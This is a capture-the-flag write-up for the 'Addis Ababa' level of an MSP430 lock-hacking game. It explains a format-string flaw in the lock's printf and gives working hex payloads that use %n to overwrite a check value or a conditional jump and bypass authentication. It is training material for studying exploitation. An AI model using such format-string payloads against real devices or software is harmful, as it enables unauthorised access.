 # Addis Ababa

## Challenge overview

Lockitall LockIT Pro, rev b.03
- We have verified passwords can not be too long.
- Usernames are printed back to the user for verification.
- This lock is attached the the LockIT Pro HSM-1.

## Solution

### Solution overview

This solution utilizes a format string vulnerability to inject a code fault at a critical point in the authentication algorithm.

### Analysis

The device requires an input string in the format &lt;username&gt;:&lt;password&gt;.  The total length of the input string, including null terminator, may not be longer than 20 characters.

On analysis of the disassembled code, the input is written back out using printf(), which supports %s, %x and %n.  It does not support '\\' escapes, '$' parameters, or any other parameters.  The limited parameter options combined with the limited input size makes the format string vulnerability unsuitable for writing arbitrary values.

There are a limited number of things that we can do with this format string vulnerability.  We can provide an address to overwrite within the input string, and %x can be used to consume unwanted parameters so that %n can be aligned with the address parameter.  However, %n can only be used to write small values.  We don't have appropriate parameters or input string length to build output characters up to any arbitrary number for %n to write.  So while we can aim, we are very limited in what we can write.

### Attack

Perhaps we can overwrite a single instruction, as in a clock glitch or voltage glitch attack, and affect the flow of execution.  The following section of code includes a conditional jump just before the call to unlock_door().  If we knock out either the check value at 0x448C or the conditional jump at 0x448E, we can unlock the door despite failing the authentication check.

	447c:  b012 c845      call	#0x45c8 <printf>            ; Execute format string here.
	4480:  2153           incd	sp
	4482:  3f40 0a00      mov	#0xa, r15
	4486:  b012 5045      call	#0x4550 <putchar>
	448a:  8193 0000      tst	0x0(sp)						; Overwrite 0x0000,
	448e:  0324           jz	#0x4496 <main+0x5e>         ; ...or overwrite conditional jump.
	4490:  b012 da44      call	#0x44da <unlock_door>       ; Profit here either way.
	4494:  053c           jmp	#0x44a0 <main+0x68>
	4496:  3012 1f45      push	#0x451f "That entry is not valid."
	449a:  b012 c845      call	#0x45c8 <printf>
	449e:  2153           incd	sp
	44a0:  0f43           clr	r15
	44a2:  3150 1600      add	#0x16, sp
	44a6 <__stop_progExec__>
	44a6:  32d0 f000      bis	#0xf0, sr
	44aa:  fd3f           jmp	#0x44a6 <__stop_progExec__+0x0>

Just ignore for a moment whether or not the MSP430 has any code protection, or whether or not this device is running code from flash.  Let's try it anyway.

The following input strings should implement our attack:

	"\x8C\x44%x%n" or "\x8E\x44%x%n"

Broken down as follows:
* \x8C\x44 is the address of the check value that we want to overwrite (solution 1).
* \x8E\x44 is the address of the conditional jump that we want to overwrite (solution 2).
* %x consumes a parameter, so that %n will align with the address at the beginning of the input string.
* %n writes out the number of characters written so far (0x0002).

The final solutions, provided as hex input: 8C442578256E or 8E442578256E
